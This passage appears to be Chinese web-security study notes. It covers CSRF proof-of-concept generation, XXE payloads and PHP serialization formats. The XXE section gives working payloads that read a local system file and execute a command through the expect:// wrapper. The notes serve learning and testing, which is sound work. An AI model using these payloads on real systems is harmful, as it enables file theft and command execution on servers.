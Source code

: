  注：可利用burpsuit右键的Engagement tools——CSRF PoC，来自动生成一个表单

# SSRF（PTS）

# XXE(PTS)

payload

```
<?xml version="1.0" ?>
<!DOCTYPE xxe [
      <!ENTITY val "hello">
]>
<p>&val;</p>
```

**读文件**

*encoding和ANY部分可适当删减*

```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE xxe [
    <!ELEMENT xxe ANY >
    <!ENTITY val SYSTEM "C:/Windows/win.ini">
]>
<p>&val;</p>
```

**执行命令**

（前提是装了expect扩展）

```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE xxe [
    <!ENTITY val SYSTEM "expect://whoami">
]>
<p>&val;</p>
```

# 反序列化

**把字符串还原为变量/对象**

> 字符串
>
> s:44:"Whatever is worth doing is worth doing well.";
>
> 整数
>
> i:8023;
>
> 布尔
>
> b:1;     true
>
> b:0;     flase
>
> 小数
>
> d:3.1400000000000001;
>
> 数组
>
> a:2:{i:0;s:3:"php";i:1;s:5:"array";}